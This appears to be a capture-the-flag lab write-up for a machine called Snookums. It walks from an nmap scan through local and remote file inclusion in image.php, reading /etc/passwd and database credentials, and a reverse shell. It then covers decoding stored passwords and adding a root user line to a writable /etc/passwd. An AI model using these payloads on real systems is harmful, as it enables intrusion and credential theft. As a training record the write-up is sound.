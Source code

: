 # Snookums
### Enumeration
```
# Nmap 7.92 scan initiated Mon Apr  4 17:34:11 2022 as: nmap -v -p- -sC -sV -oN tcp.out 192.168.55.58
Nmap scan report for 192.168.55.58
Host is up (0.00018s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.55.200
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp    open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:79:67:12:c7:ec:13:3a:96:bd:d3:b4:7c:f3:95:15 (RSA)
|   256 a8:a3:a7:88:cf:37:27:b5:4d:45:13:79:db:d2:ba:cb (ECDSA)
|_  256 f2:07:13:19:1f:29:de:19:48:7c:db:45:99:f9:cd:3e (ED25519)
80/tcp    open  http        Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Simple PHP Photo Gallery
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp   open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp  open  mysql       MySQL (unauthorized)
33060/tcp open  mysqlx?
```

##### 139, 445
SMB didn't have anything interesting.

##### 21
Anonymous login was enabled for FTP, but all commands timed out.

##### 80
I fuzzed the webserver and found a few files:

```
db.php
functions.php
image.php
```

The first two were empty, so probably wouldn't take input, but the third was interesting. I fuzzed it for parameters and found `img`, which was vulnerable to LFI, e.g. I could get the contents of `/etc/passwd` by requesting:

```
http://192.168.55.58/image.php?img=/etc/passwd
```

I found the webroot at `/var/www/html` by requesting `?img=/var/www/html/index.php`. Since the server uses PHP, I used a php filter to fetch `db.php` as base64. After decoding, the contents was:

```php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```

However, we don't seem to be allowed to connect to MySQL and the password doesn't appear to be the root SSH password. I also tried these credentials with FTP and SMB but no luck there.

### Foothold
Instead, I fetched `image.php` itself and decoded to discover that the `img` parameter was being passed to `include()`. I spun up a python webserver and tried to RFI to it, which worked. So I could host a PHP reverse shell and get `image.php` to execute it for me. I had to use a port number that was open during the scan for the reverse shell (presumably the firewall was blocking outgoing requests to all other ports), so I went for 3306 and got a shell as the `apache` user.

### Privilege Escalation
There's one other user on the machine, called `michael`. I tried the database password with `su` for both `root` and `michael` but it didn't work for either. Instead, I connected to the database and retrieved the contents of the `users` table in the `SimplePHPGal` database:

```
mysql> select * from users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
3 rows in set (0.01 sec)
```

These were twice base64 encode, and decoded to:

```
josh:MobilizeHissSeedtime747
michael:HockSydneyCertify123
serena:OverallCrestLean000
```

The password stored for `michael` worked as their password on the machine, so I was able to `su` to `michael` and get the user flag.

### Privilege Escalation 2
`michael` did not have `sudo` permissions.

Running linpeas, we see that the `michael` user owns `/etc/passwd`. I followed the instructions on [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-etc-passwd) and added the following line to get a user with root permissions and credentials `hacker:hacker`:

```
hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash
```
#